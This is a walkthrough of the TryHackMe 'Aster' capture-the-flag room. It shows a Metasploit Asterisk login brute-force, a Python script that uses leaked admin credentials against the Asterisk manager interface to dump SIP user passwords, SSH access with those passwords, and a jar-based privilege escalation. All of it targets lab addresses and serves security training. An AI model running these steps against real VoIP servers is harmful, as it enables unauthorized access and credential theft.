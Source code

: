 ```yaml
---
date: 2025-02-12
categories: [CTF, THM]
title: "THM - Aster"
tags: ['nmap', 'privilege escalation', 'python', 'rce']

description: "Aster - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Aster

```bash
nmap -A -v -p- -T4 10.10.45.105
```

![image1](../resources/913e2d8a78c0405dba3662758f8b2d29.png)


![image2](../resources/2e8f26d7b8a44b8db511901a9165c274.png)

Download .pyc file (Python byte compiled file)

Running file on it shows the python version

![image3](../resources/239c66355ed441ab982ba8a553a5ad80.png)

Decompile it with a decompiler like **uncompyle6**:

![image4](../resources/021ca545b7d843fd8189183db1b2b2b8.png)


![image5](../resources/fc51fb8aded341c8b4b1f45ae0b5e143.png)

Change it:

![image6](../resources/7a22f52f393845c18807155054127e15.png)

<u>Output:</u>
Good job, user "**admin**" the **open source framework for building communications**, installed in the server.
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!

**<u>Exploit:</u>**
<https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/>

```bash
msfconsole
use auxiliary/voip/asterisk_login
```

![image7](../resources/7f606ac500ae490bb472a031a910005f.png)

User: "**admin**"
Pass: "**abc123**"

- Tried using telnet and nc but didn't work

- Use the asterisk library in Python to connect to it:

```python
from asterisk.ami import AMIClient, SimpleAction

# Connect to Asterisk Manager
client = AMIClient(address='10.10.98.61', port=5038)
client.login(username='admin', secret='abc123')

# Specify the Asterisk CLI command you want to execute
cli_command = 'help'

# Send a 'Command' action with the specified command
response = client.send_action(SimpleAction('Command', Command=cli_command))
print(response.get_response())

# Logout and close the connection
client.logoff()

```

![image8](../resources/de34f7f9f13c453589100fae7dab3efd.png)


![image9](../resources/f290b8520ce44a1a9a900b28fcbc9506.png)

Action: command
Command: sip show users


![image10](../resources/96765dcf7b7b48eab8b4579651707bef.png)


![image11](../resources/8591dbd5434246b1a52a036fa03d0a54.png)

We get the creds:
**harry : p4ss#w0rd!#**

<u>Enumerating Specific User</u>

Action: command
Command: sip show peer harry


![image12](../resources/030ea2abc7034d079078abf32cc4596e.png)

- SSH onto the box with the credentials

![image13](../resources/66dbd9d9a47e4e5ab2c67d1914a44f8e.png)

**<u>Priv Esc:</u>**

- Use python -m http.server on the target machine to copy over Example.Root.jar

```bash
jar -xf Example_root.jar

```

![image14](../resources/18be5c0c3af84eeda1b0ad0cecc83411.png)


![image15](../resources/49e7f30c1067441282dad3362f459aea.png)

Download Java Decompiler - <https://java-decompiler.github.io/>

Open Example_Root.class in the decompiler


![image16](../resources/ef88536f1cc84ae1b7bc7f9994146da5.png)

```bash
touch /tmp/flag.dat
```

![image17](../resources/66f8e3270f614bc69dbd5b9c91ac81a7.png)


![image18](../resources/2824c192eba843c5bd1a9119334e3fd3.png)

```bash
cat root.txt

```